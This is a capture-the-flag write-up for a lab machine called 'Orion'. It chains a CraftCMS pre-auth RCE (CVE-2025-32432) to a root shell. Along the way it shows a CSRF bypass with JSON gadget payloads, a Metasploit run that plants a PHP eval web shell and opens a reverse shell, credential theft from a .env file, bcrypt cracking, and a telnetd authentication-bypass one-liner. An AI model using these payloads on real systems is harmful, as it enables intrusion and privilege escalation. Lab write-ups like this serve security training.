





	<font size="10">Orion</font>

​		13<sup>th</sup> March 2026 

​		Prepared By: Pho3o

​		Machine Author: Pho3o

​		Difficulty: <font color=green>Very-Easy</font>	


# Synopsis

`Orion` is a very easy Linux machine that features CSRF Validation Bypass and exploration of CraftCMS and Telnetd. The foothold includes achieving remote code execution by exploiting CVE-2025-32432 in a vulnerable version of CraftCMS. Then the default Craft environment variable file exposes the credentials for its MySQL database, which contains a crackable password. The password has been reused and leads to SSH access to the user on the machine. Finally, privilege escalation is achieved by finding and exploiting a vulnerable version of telnetd (CVE-2026-24061), allowing authentication bypass to root. 

# Skills Required

- Basic Web Enumeration
- Linux Fundamentals

# Skills Learned

- CSRF Validation Bypass
- CraftCMS Exploitation (CVE-2025-32432)
- Telnetd Exploitation (CVE-2026-24061)

# Enumeration

## Nmap

We will start with our usual `Nmap` scan and find two ports open. We see two ports, `port 22` for `SSH` and `port 80` for `HTTP`. We see that we could not be redirected to the website because the domain name `orion.htb` is not resolvable locally. 

```bash
$ nmap -sCV 10.129.231.23
<SNIP>
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://orion.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

So we will add the hostname-IP mapping to our `/etc/hosts` file to allow for proper redirection.

```bash
$ echo "10.129.231.23 orion.htb" | sudo tee -a /etc/hosts
```

Now, we can visit the website through our browser and we see a simple website for a telecom company. From the services and `#about` section, we understand that this company is highly influential, working with large corporations and even government agencies. 


There don't appear to be any interesting links on the page but we do notice in the footer that the website is powered by `CraftCMS`.



From here, we could immediately try some known endpoints of `CraftCMS` like `/admin`, but we can also use a fuzzing tool like `FFUF` to discover other endpoints. 

```bash
$ ffuf -u http://orion.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -ic
<SNIP>
index                   [Status: 200, Size: 12272, Words: 1076, Lines: 386, Duration: 920ms]
                        [Status: 200, Size: 12272, Words: 1076, Lines: 386, Duration: 927ms]
assets                  [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 166ms]
admin                   [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 333ms]
```

We find the `/admin` endpoint redirects to `/admin/login` when we visit it in our browser.



This appears to be a slightly customized login page based on the default `CraftCMS` login endpoint for admins managing the website. The important discovery on this page, however, is the version of `CraftCMS` is exposed at the bottom by some developer that didn't know better. 

The `CraftCMS` version is `5.6.16`, which from a quick google search, we find is vulnerable to unauthenticated RCE [CVE-2025-32432](https://nvd.nist.gov/vuln/detail/CVE-2025-32432). 

# Foothold

We have identified the first vulnerability to be `CVE-2025-32432`. This vulnerability is based on a weakness in the code of the image transformation function of `CraftCMS`. It allows us to pass `JSON` data that will be interpreted as an object configuration, allowing us to instantiate arbitrary classes and trigger code execution. This [blog](https://sensepost.com/blog/2025/investigating-an-in-the-wild-campaign-using-rce-in-craftcms/#technical-analysis) post provides a more in-depth analysis of all the functions that allow this to happen. 

Let's verify if the website is indeed vulnerable manually, and later we can use the `meterpreter` module to achieve RCE more easily. We'll make a `POST` request to the vulnerable action and have it show us the `PHP` info page. 

But since `CSRF` validation is enabled, we have to bypass the check first. To do this, we need to get the necessary cookies as well as a somewhat hidden `CSRF` Token. 

We will need:

- `CraftSessionId`: identifies the session
- `CRAFT_CSRF_TOKEN`: server’s stored `CSRF` reference
- `X-CSRF-Token`: the actual `CSRF` token needed to send `JavaScript/AJAX` requests

We start by visiting the `/admin/login` page, in which we will be assigned the cookies we need. 



To start, we see we were assigned the `CraftSessionID` and `CRAFT_CSRF_TOKEN`, which we will save to use later. 

But if we scroll further down in the same response, we will identify the `csrfTokenValue`. The first cookie we saw is encoded/serialized data that helps the Yii framework store the correct `CSRF` token associated with this session, while the second is the real token value. During verification, Yii compares the token provided in the request with the value stored for that session. Because of this, both the session cookie and the `CSRF` cookie must be included along with the request token for the `CSRF` check to pass.




With these, we will craft our `POST` request. We will specify the assigned `Cookies` and then the `csrfTokenValue` under `X-CSRF-Token`. 

Now we need to create the `JSON` data for the request. We are targeting the `actions/assets/generate-transform` function, which normally resizes or generates thumbnails for a given asset. So to start, we set a valid `assetId` and image transformation parameters (width, height). 

However, the interesting part is that `Craft` processes this data using the object configuration system of the Yii Framework. Yii allows arrays containing a `class` key to be interpreted as instructions for object creation. But we can influence which class we want to be instantiated. 

So, we will supply additional configuration under `as session` in order to attach behavior to the object being created. Then, we can choose to instantiate a class like `GuzzleHttp\Psr7\FnStream`. We will essentially have it construct an object (for which we don't need to provide any configuration), and when the object's close handler is triggered,  `FnStream` will execute a `PHP` function of our choice stored in `_fn_close`, in this case `phpinfo()`.

```bash
{
    "assetId": 11,
    "handle": {
        "width": 123,
        "height": 123,
        "as session": {
            "class": "craft\\behaviors\\FieldLayoutBehavior",
            "__class": "GuzzleHttp\\Psr7\\FnStream",
            "__construct()": [
                []
            ],
            "_fn_close": "phpinfo"
        }
    }
}
```

We remember to include our `Cookies`, the `X-CSRF-Token` and `Content-Type: application/json` in the headers and we send the request. Sure enough, we pass the check and are given the standard `PHP` info page. 



We indeed see that it is vulnerable, so we can move on to get RCE with `meterpeter`, which already has a module for this CVE. The module automates the following steps:

- Exposes `phpinfo` as we did in order to find that the configuration stores session files in `/var/lib/php/sessions/sess_{CraftSessionId}` format. 
- Then, it injects a web shell into a `PHP` session file through `GET /index.php?p=admin/dashboard&a=<?=eval($_GET['cmd']);die()?>`. The server processes the request, creates a session and responds with a `CraftSessionId`.
- Next, it gets a new valid `X-CSRF-Token` and `Cookies` from an admin page like `/admin/dashboard` (in our case, we got them from `/admin/login`).
- Finally, it triggers a reverse shell in a request to `POST /index.php?p=actions/assets/generate-transform&cmd=eval(base64_decode('base64endoded_reversephpPAYLOAD'));`. It includes the `X-CSRF-Token` and `Cookies`  as we did earlier to bypass the `CSRF` check. This time, it uses a different class in order to trigger execution of the session file with the web shell. The `JSON` data looks something like this.

```bash
{
    "assetId": 11,
    "handle": {
        "width": 123,
        "height": 123,
        "as session": {
            "class": "raft\\behaviors\\FieldLayoutBehavior",
            "__class": "yii\\rbac\\PhpManager",
            "__construct()": [
                {"itemFile": "/var/lib/php/sessions/sess_{CraftSessionId}"}
            ]
        }
    }
}
```

Let's set up `meterpreter` by specifying the target, our local IP address and then we wait for a session. 

```bash
$ msfconsole
msf > use exploit/linux/http/craftcms_preauth_rce_cve_2025_32432
msf exploit(linux/http/craftcms_preauth_rce_cve_2025_32432) > set rhosts orion.htb
msf exploit(linux/http/craftcms_preauth_rce_cve_2025_32432) > set rport 80
msf exploit(linux/http/craftcms_preauth_rce_cve_2025_32432) > set lhost {YOURIPADDRESS}
msf exploit(linux/http/craftcms_preauth_rce_cve_2025_32432) > exploit
[*] Started reverse TCP handler on 10.10.14.49:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] Leaked session.save_path: /var/lib/php/sessions
[+] The target is vulnerable. Session path leaked
[*] Injecting stub & triggering payload...
[*] Sending stage (42137 bytes) to 10.129.231.23
[*] Meterpreter session 1 opened (10.10.14.49:4444 -> 10.129.231.23:57602) at 2026-03-12 14:19:18 +0200

meterpreter > getuid
Server username: www-data
```

We successfully get a `meterpeter` terminal as `www-data`. From here, we'll get a proper shell.

```bash
meterpreter > shell
Process 1334 created.
Channel 0 created.
```

Then, we'll upgrade our shell.

```bash
$ script /dev/null -c /bin/bash
Script started, output log file is '/dev/null'.
www-data@orion:~/html/craft/web$ 
```

Now we can enumerate the file system. Since we are in the `craft` folder, we can check `craft's` files to see if there are any plaintext passwords we can find. 

```bash
www-data@orion:~/html/craft$ ls -la
ls -la
total 364
drwxrwxr-x  7 www-data www-data   4096 Mar  6 11:22 .
drwxr-xr-x  3 root     root       4096 Mar  6 11:19 ..
-rw-rw-r--  1 www-data www-data    718 Mar  6 11:24 .env
-rw-rw-r--  1 www-data www-data    411 Nov 18 17:08 .env.example.dev
-rw-rw-r--  1 www-data www-data    623 Nov 18 17:08 .env.example.production
-rw-rw-r--  1 www-data www-data    619 Nov 18 17:08 .env.example.staging
<SNIP>
```

We find the `.env` file which contains the password to access the `MySQL` database.

```bash
www-data@orion:~/html/craft$ cat .env
<SNIP>
CRAFT_DB_DRIVER=mysql
CRAFT_DB_SERVER=127.0.0.1
CRAFT_DB_PORT=3306
CRAFT_DB_DATABASE=orion
CRAFT_DB_USER=root
CRAFT_DB_PASSWORD=SuperSecureCraft123Pass!
<SNIP>
```

Let's authenticate to `MySQL` and see if we can find any crackable passwords.

```bash
www-data@orion:~/html/craft$ mysql -u root -p orion
mysql -u root -p orion
Enter password: SuperSecureCraft123Pass!
<SNIP>
MariaDB [orion]> 
```

We search through the tables and find the `Users` table that contains the hashed password for the admin of `CraftCMS` which appears to be `Adam`.

```bash
MariaDB [orion]> select * from users;
select * from users;
<SNIP>
|  1 |    NULL |NULL |1 | 0 |0 | 0 |     1 | admin| NULL| NULL | NULL | adam@orion.htb | $2y$13$e9zuohgFZzGtbQalcn9Mz.5PJbjxobO0GMbXo8NHp3P/B42LUg0lS 
<SNIP>
```

This hash is `bcrypt` which we can attempt to crack with `hashcat`. We will save the hash into a file called `hash.txt` and run `hashcat` by specifying the hash file, a wordlist and the hash type `-m 3200` for `bcrypt`.

```bash
$ hashcat -m 3200 hash.txt /usr/share/wordlists/rockyou.txt           
<SNIP>
$2y$13$e9zuohgFZzGtbQalcn9Mz.5PJbjxobO0GMbXo8NHp3P/B42LUg0lS:darkangel
<SNIP>                                                     
```

The password cracks and we find `Adam's` password for `CraftCMS` is `darkangel`. Let's check to see if he has reused it for `SSH`. 

```bash
$ ssh adam@orion.htb
adam@orion.htb's password: 
<SNIP>
adam@orion:~$ cat user.txt
```

And we have gotten user on the machine and found the user flag!

# Privilege Escalation

With our terminal as `Adam`, let's check for any open ports that weren't exposed externally. 

```bash
adam@orion:~$ netstat -tulnp
<SNIP>
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:23            0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      -
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -
udp        0      0 0.0.0.0:68              0.0.0.0:*                           -
```

We notice `port 23` for `telnet` is listening locally. Let's check the version of `telnet` on the machine.

```bash
adam@orion:~$ telnet --version
telnet (GNU inetutils) 2.7
```

From a quick Google search, we can see that this version of `telnet` is vulnerable to [CVE-2026-24061](https://nvd.nist.gov/vuln/detail/CVE-2026-24061). This is a rather simple remote authentication bypass through which we can simply provide `-f root` in the `USER` environment variable. 

We trick the `telnetd` daemon by passing the `USER` variable to `login(1)` and essentially have it execute `login -f root`. The `-f` flag skips authentication and `root` is our target user. So we can get access to `root` without even having their password.

```bash
adam@orion:~$ USER="-f root" telnet -a 127.0.0.1
Trying 127.0.0.1...
Connected to 127.0.0.1.
Escape character is '^]'.

Linux 5.15.0-171-generic (orion) (pts/2)
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-171-generic x86_64)
<SNIP>
root@orion:~# cat root.txt
```

We have rooted the box and found the `root` flag!
